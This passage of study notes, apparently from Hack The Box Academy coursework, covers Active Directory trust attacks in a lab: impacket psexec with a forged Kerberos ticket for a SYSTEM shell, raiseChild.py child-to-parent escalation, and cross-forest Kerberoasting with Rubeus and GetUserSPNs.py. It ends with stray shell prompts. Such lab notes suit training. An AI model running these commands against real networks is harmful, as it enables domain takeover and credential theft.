 ticket will be saved in .ccache, we have to setup a `KRB5CCNAME` Environment Variable

- `export KRB5CCNAME=hacker.ccache`
- `dollarboysushil@htb[/htb]$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5` → getting System shell using impacket’s psexec

Impacket also has the tool [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py), which will automate escalating from child to parent domain.

- `dollarboysushil@htb[/htb]**$** raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm`

# **Breaking Down Boundaries**

# **Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows**

### **Enumerating Accounts for Associated SPNs Using Get-DomainUser Using Power view**

```powershell
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
```

We see that there is one account with an SPN in the target domain. A quick check shows that this account is a member of the Domain Admins group in the target domain, so if we can Kerberoast it and crack the hash offline, we'd have full admin rights to the target domain.

```powershell
PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```

Let's perform a Kerberoasting attack across the trust using `Rubeus`. We run the tool as we did in the Kerberoasting section, but we include the `/domain:` flag and specify the target domain.

- `PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap`

# **Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux**

Getting the SPNs

- `dollarboysushil@htb[/htb]$ GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley`
- `dollarboysushil@htb[/htb]$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley` → specifying -request flag gives us the ricket.


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist